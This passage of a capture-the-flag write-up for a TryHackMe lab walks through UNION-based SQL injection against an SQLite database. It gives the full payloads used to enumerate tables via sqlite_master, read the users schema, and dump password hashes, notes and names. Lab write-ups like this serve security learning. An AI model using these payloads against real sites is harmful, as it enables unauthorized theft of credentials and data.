 For sqlite use **sqlite_version()** if we get a reply then it is sqlite.

![](/TryHackMe/MadeyeCastle/burp5.png)




Hence it is sqlite.




So let's find table name using 

> ' union select group_concat(tbl_name),2,3,4 FROM sqlite_master-- -


![](/TryHackMe/MadeyeCastle/burp6.png)


Hence we get the table name as users.

Next aim is to find coloumn names . We can find using

>' union select sql,2,3,4 FROM sqlite_master  WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -

![](/TryHackMe/MadeyeCastle/burp7.png)


```
CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)
```
So coloumns are :

* name
* password
* admin
* notes

First we try to get __password__ using 

>'union select group_concat(password),2,3,4 FROM users-- -

![](/TryHackMe/MadeyeCastle/burp8.png)



So we get hashes let's save it to a txt file.


Next __notes__ using 


> 'union select group_concat(notes),2,3,4 FROM users-- -

![](/TryHackMe/MadeyeCastle/burp9.png)



Next __name__ using 


>'union select group_concat(name),2,3,4 FROM users-- -

